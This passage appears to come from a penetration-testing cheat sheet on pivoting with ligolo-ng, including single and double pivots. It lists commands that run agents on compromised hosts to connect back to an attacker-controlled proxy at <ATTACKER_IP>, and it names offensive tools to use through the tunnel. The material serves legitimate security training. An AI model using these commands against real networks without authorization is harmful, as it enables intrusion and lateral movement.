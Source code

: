     * We can then run the script by issuing the following command

        ```ps1
        chmod +x ligolo-ng_setup.sh && ./ligolo-ng_setup.sh
        ```

3. Setting up the ligolo-ng proxy. After the interface has been setup, we can now start the ligolo-ng proxy. We can use any `<PROXY_PORT>` we want as long as it not already in use.

    ```ps1
    ./proxy -laddr <ATTACKER_IP>:<PROXY_PORT> -selfcert
    ````

4. Using the ligolo-ng agent to connect to the ligolo-ng proxy. In the compromised computer we can use the agent to connect back to the proxy.

    ```ps1
    ./agent -connect <ATTACKER_IP>:<PROXY_PORT> -ignore-cert
    ```

5. Start tunneling traffic through ligolo-ng. Once the connection from the agent reaches the proxy we can use the `session` command to list the available sessions. We can use the arrow keys to select the session we want and issue the command `start` to start tunnelling traffic through it.

6. Using local tools.

After the tunneling has been initiated, we can use local offensive tools, such as CrackMapExec, Impacket, Nmap through the ligolo-ng network pivot without any kind of limitations or added lag (this is especially true for Nmap).

### Double Pivot

1. Setting up a listener in the initial pivoting session.

    * To start a double pivot, we have to make sure that the connection of the second agent will go through the **first** agent to avoid losing contact to our first pivot. To do so, we will have to create a _listener_ to the ligolo-ng session responsible for the first pivot.
    * This command starts a listener to all the interfaces (`0.0.0.0`) of the **compromised**  host in port `4443` (we can replace it with any other port we want, as long as it is not already in use in the compromised initial pivot host). Any traffic that reaches this listener will be **redirected to the ligolo-ng** proxy (`--to <ATTACKER_IP>:<PROXY_PORT>`).

        ```ps1
        listener_add --addr 0.0.0.0:4443 --to <ATTACKER_IP>:<PROXY_PORT> --tcp
        ```

2. Starting te second agent. After transferring the ligolo-ng agent to the **second** pivot host that we have compromised we will start a connection **not directly to our ligolo-ng proxy** but to the first pivoting agent.

    ```ps1
    .\agent.exe -connect <1st_PIVOT_HOST_IP>:4443 -ignore-cert
    ```

3. Starting the second pivot. In the ligolo-ng proxy we will receive a call from the second agent through the listener of the first agent. We can use the `session` command and the arrow keys to navigate through the created sessions. Issuing the `start` and `stop` commands we can tell the ligolo-ng proxy which session will be used for tunneling traffic.
